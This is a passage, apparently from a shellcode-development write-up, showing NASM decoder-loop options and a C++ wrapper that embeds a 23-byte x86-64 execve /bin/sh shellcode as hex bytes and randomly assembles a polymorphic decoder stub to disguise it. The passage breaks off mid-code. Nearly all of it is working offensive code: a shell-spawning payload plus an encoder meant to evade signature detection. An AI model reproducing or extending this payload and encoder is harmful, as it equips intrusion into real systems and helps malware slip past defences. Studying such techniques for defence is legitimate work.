 ```nasm
    ;Option 1
    ;;;;;;;;;
    ;dec rcx              ; 
    ;jnz decode           ; 5 bytes
    ;hex: \x48\xff\xc9\x75 + One byte depending of used instructions length and automatically adjusted

    ;Option 2
    ;;;;;;;;;
    loopnz decode        ; 2 bytes
    ;hex: \xe0 + One byte depending of used intructions length and automatically adjusted 


; Here will be the encoded shellcode
```

And here is my c++ wrapper where you can configure the payload you want (but stub + shellcode length must be inferior to 256 bytes)  
When it will be executed, it will encode the payload and randomly assemble a decoder stub.

```cpp
#include <iostream>
#include <cstring>
#include <string>
#include <cstdlib>

using namespace std;

unsigned char payload[] = "\x31\xf6\xf7\xe6\x50\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x48\x89\xe7\xb0\x3b\x0f\x05";
/*
Execve shellcode 23 bytes :

    xor esi, esi
    mul esi
    push rax
    mov rdi, 0x68732f2f6e69622f
    push rdi          
    mov rdi, rsp           
    mov al, 59
    syscall
*/

// Get memory address intructions set
string  mem_addr[2] = {
            "\xd9\xe4\x54\x5b\x66\x83\xe3\xf0\x31\xc0\x66\xb8\x10\x02\x48\x01\xc3\x48\x0f\xae\x03\x48\x8b\x73\x08",
            "\x48\x8d\x35\xf9\xff\xff\xff"
};

// Two's complement instructions set
string two_compl[] = {
            "\xf6\x1e",
            "\x31\xc0\x2a\x06\x88\x06",
            "\xf6\x16\xfe\x06"
};

// Increment rsi instructions set
string incr_rsi [2] = {
            "\x48\xff\xc6",
            "\x48\x83\xc6\x01"
};

// Loops instructions set, minus the address byte that will be calculated
```